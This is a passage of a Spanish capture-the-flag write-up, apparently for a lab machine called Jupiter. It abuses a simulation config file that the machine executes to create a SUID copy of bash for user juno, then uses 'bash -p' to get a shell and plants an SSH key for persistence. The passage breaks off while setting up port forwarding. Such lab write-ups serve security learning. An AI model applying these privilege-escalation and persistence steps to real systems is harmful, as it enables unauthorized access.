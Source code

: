 Por lo que se puede inferir, se están ejecutando comandos, por lo que se puede intentar cambiarlos para crear una copia de la **/bin/bash** con permisos **SUID** como **juno**.

```yml
hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash  /tmp/bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod 
      args: u+s /tmp/bash
      start_time: 5s
```
{: file="/dev/shm/network-simulation.yml"}

Con eso, solo hace falta ejecutar el archivo creado:
```bash
./bash -p
```
{: .nolineno}
Y se obtiene una shell.

```bash
juno@jupiter:~$ ls
shadow  shadow-simulation.sh  user.txt
juno@jupiter:~$ 
```
{: .nolineno}
### Nota

>Un buen consejo es intentar asegurar la permanencia dentro de la máquina para que se pueda acceder en cualquier momento, incluso si la conexión se llega a perder. Esto se puede lograr copiando la clave pública de **SSH** dentro de la máquina.
{: .prompt-tip}

```bash
ssh -i id_rsa juno@10.10.11.216
```
{: .nolineno}
## Escalada de Privilegios (Jovian)


Al revisar qué puertos se encuentran abiertos dentro de la máquina, se puede observar que el ***puerto 8888*** es llamativo. Por lo tanto, se puede intentar realizar un **port forwarding** para ver qué sucede dentro de la máquina. Se puede hacer fácilmente gracias a que se puede establecer una conexión **SSH**, por lo que se utiliza el siguiente comando:
